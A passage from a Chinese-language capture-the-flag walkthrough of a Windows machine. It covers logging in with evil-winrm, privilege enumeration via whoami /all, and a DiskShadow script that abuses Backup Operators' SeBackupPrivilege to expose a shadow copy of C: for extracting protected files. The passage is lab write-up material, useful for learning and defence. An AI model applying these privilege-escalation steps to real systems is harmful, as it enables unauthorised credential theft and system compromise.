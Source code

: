 ****破解哈希。****

****接下来，我使用带有 **evil-winrm** 的凭证登录。登录后，我发现了另一个 PSCredential PowerShell xml 文件，其中包含该标志，尽管声明不是这样。****

****![](img/89c2c373a804c3ec3ac9918d6506abd4.png)****

****Xyan1d3 的标志。****

# ****权限提升****

****我首先使用 **whoami** 执行一些手动用户枚举。****

```
**whoami /allGroup Name                                 Type
========================================== ================
Everyone                                   Well-known group
**BUILTIN\Backup Operators**                   Alias
BUILTIN\Remote Management Users            Alias
BUILTIN\Users                              Alias
...... PRIVILEGES INFORMATION
----------------------Privilege Name                Description
============================= ==============================
SeMachineAccountPrivilege     Add workstations to domain
**SeBackupPrivilege             Back up files and directories**
**SeRestorePrivilege            Restore files and directories**
SeShutdownPrivilege           Shut down the system
SeChangeNotifyPrivilege       Bypass traverse checking
SeIncreaseWorkingSetPrivilege Increase a process working set**
```

****通过使用***“whoami/all”、*** 查看用户的权限，我看到该用户属于**备份操作员**组，该组启用了 **SeBackupPrivilege** 和 **SeRestorePrivilege** 。这可以通过多种技术来利用，比如使用 [DiskShadow](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) 。下面是用来获取文件的脚本。****

```
**set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:**
```

